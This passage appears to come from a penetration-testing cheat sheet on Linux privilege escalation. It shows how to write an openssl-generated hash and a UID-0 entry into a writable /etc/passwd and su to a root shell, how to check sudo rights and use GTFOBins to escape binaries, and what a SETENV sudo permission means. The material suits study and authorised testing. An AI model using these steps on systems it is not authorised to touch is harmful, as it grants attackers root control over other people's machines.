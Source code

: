 

## Writeable /etc/passwd

The `/etc/passwd` file stores essential information, which is required during login. In other words, it stores user account information.

if we have a writable `/etc/passwd` file, we can write a new line entry allowing us to log in as our own root user. But first, we need to create a compliant password hash.

```text
openssl passwd -1 -salt [username] [password]
openssl passwd [password]
```

Finally append the following string to  `/etc/passwd` file:

```text
[USERNAME]:[HASH]:0:0:root:/root:/bin/bash
```

And finally su to this new user to obtain a **root** **shell**:

```text
su [USERNAME]
```

## GTFOBins

GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

Firstly, we need to check the sudo permissions on binaries:

```text
sudo -l
```

After that search on [GTOBins web ](https://gtfobins.github.io/)to search how to escape from that binary and obtain a shell:

* [https://gtfobins.github.io/](https://gtfobins.github.io/)

```text
User user may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/someBinary
```

{% hint style="warning" %}
**Remember**: Do **not** **forget** to run the command as **sudo!**
{% endhint %}

### SETENV permission

This mean that we can set some environment variables to run the command.

```text
User user may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/some.py
```

